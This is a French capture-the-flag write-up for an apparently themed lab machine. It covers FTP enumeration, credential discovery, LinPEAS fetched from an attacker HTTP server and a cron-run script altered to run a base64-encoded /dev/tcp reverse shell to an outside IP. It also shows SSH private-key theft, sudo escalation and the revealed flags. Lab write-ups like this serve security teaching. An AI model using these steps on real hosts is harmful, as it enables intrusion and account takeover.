










# Yer a Wizard 🔳🔳

## Récupération du `user.txt`

> EPI{0n3_kaN_n3v3R_haV3_3n0U9H_50CK2}

La première étape consiste a scanner les ports ouverts sur la machine cible.

```bash
nmap -sV -sC <target>
```

_- `-sV` : détecte la version des services en cours d'exécution sur les ports ouverts._

_- `-sC` : exécute des scripts de détection par défaut pour obtenir plus d'informations sur les services._

- Résultat :


Le scan révèle que les ports suivants sont ouverts :

- **`22/tcp (SSH)`**
- **`21/tcp (FTP)`**

Ont se connecte au serveur FTP avec les identifiants `anonymous:-`. (Pas de mot de passe nécessaire)

```bash
ftp <target>
```

et ont liste les fichiers présents sur le serveur. Ont remarque qu'un dossier `...` et fichier `.hidden` qui n'apparaissent pas lors d'un simple `ls`.

```bash
ls -a
```



Cependant les credentials `hagrid:Il0veTheMalefoys`, ne permettent ni de nous connecter via ssh, ni via ftp. Cet élément nous permet d'en déduire qu'ils ne sont pas valides.

Allons explorer le dossier `...`

```bash
cd ...
ls -a
```



En nous y rendant, nous découvrons la présence d'un autre fichier caché, “.reallyHidden” également accessible à tous en lecture et comportant le mot de passe: `IAlreadySaidTooMuch`

```bash
mget .reallyHidden
cat .reallyHidden
```


Nous pouvons à présent nous connecter au serveur SSH avec les identifiants `hagrid:IAlreadySaidTooMuch`.

```bash
ssh hagrid@<target>
```


Une fois connecté, nous listons les fichiers présents dans le répertoire courant. `user.txt` est présent.

```bash
ls -a
```

avec la commande `cat` nous pouvons lire le contenu du fichier `user.txt`.

```bash
cat user.txt
```

Nous pouvons remarquer que le flag est crypter en base64.


Faisons donc un petit tour de baguette magique et utilsons la commande `base64` pour décoder le flag.
Comme le flag a été encoder en `base64` plusieurs fois, nous devons le décoder plusieurs fois.

```bash
cat user.txt | base64 -decode | base64 -decode | base64 -decode
```

## Récupération du `root.txt` (+100)

> EPI{t3H_tRuTh_1T_15_4_834ut1fUL_4nD_t3rr18L3_th1n9}

Pour obtenir le flag `root.txt`, nous devons trouver un moyen d'escalader les privilèges.

Vérifions les droits et permissions.
En effectuant `sudo -l`, nous listons les privilèges actuels de l'utilisateur hagrid. Ainsi, nous découvrons que la commande `/sbin/reboot` peut être executée via sudo sans nécessiter de mot de passe. ( si nous l'executons, c'est l'utilisateur root qui execute la commande. )




Nous allons utiliser LinPEAS pour trouver des informations sur la machine.
Une fois téléchargé, nous l'exécutons pour obtenir des informations sur la machine.

- Du coté attaquant (sur notre machine) :

```bash
  python3 -m http.server <port_au_choix>
```

- Du coté attaqué (sur la machine cible) :

```bash
wget http://<target>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```


Voici ce que nous avons trouvé :




Nous nous apercevons que Ron effectue un reboot de la machine toutes les 5 minutes. Nous allons donc modifier le script de reboot sur le fichier `hut.sh` pour qu'il execute un shell inversé.

```bash
nano hut.sh
```

Ainsi, nous pouvons modifier `hut.sh`, pour y entrer un reverse shell et se connecter:

> sh -i >& /dev/tcp/10.9.1.44/44444 0>&1

```bash
#!/bin/bash
echo “c2ggLWkgPiYgL2Rldi90Y3AvMTAuOS4xLjQ0LzQ0NDQ0IDA+JjE=”|base64 -d|bash
```




Nous allons utiliser la commande `nc` pour écouter sur le port 44444 sur notre machine (celle de l'attaquant).

```bash
nc -lvnp 44444
```



Nous découvrons un fichier `dumbledore.txt`
Faisons un tour sur le site [CyberChef](https://gchq.github.io/CyberChef/) pour décoder le flag.



- résultat :
  > ByMerlinBeard!

Nous pouvons maintenant nous connecter en tant que dumbledore avec le mot de passe `ByMerlinBeard!`.

```bash
ftp dumbledore@<target>
```

Nous listons les fichiers présents sur le serveur FTP.

```bash
ls -a
```



En affichant le contenu de note.txt, aucun indice ne nous aide à continuer.

`ftp> less note.txt
Help will always be given at Hogwarts to those who ask for it. Truth be told, I will always have an eye on you Harry, I can see it all.`


Finalement il s'agissait d'un rabbithole. Le mot de passe `ByMerlinBeard!` nous permettra de faire nous connecter a dumbledore via `su`

En nous rendant dans `/home`, tous les utilisateurs sont autorisées à traverser le dossier “harry” puisqu'il possède les droits d'execution.
En nous rendant dans `.ssh`, il est possible de récupérer la clé ssh privée qui par défaut se nomme `id_rsa`.



Ainsi, nous pouvons utiliser la clé privée, que l'on copiera dans le fichier key, et nous authentifier au compte de harry via ssh en utilisant la clé privée.

```bash
ssh -i key harry@<target>
```

Sur linPEAS une information concernant un harry `strawgoh` à été mentionné. Nous allons donc nous connecter à son compte.

> strawgoh c'est hogwarts à l'envers.

```bash
sudo -h strawgoh /bin/bash
```

> Le flag -h peut être utilisé pour spécifier l'hôte lors de l'exécution des commandes avec sudo
> Les commandes sont toujours exécutées en tant que root, ce qui permet d'obtenir un shell de niveau root


Il ne nous reste plus qu'a cat le fichier `root.txt` pour obtenir le flag.

Allons encore une fois sur le site [CyberChef](https://gchq.github.io/CyberChef/) pour décoder le flag.

> Il faudra le décoder 3 fois également




---
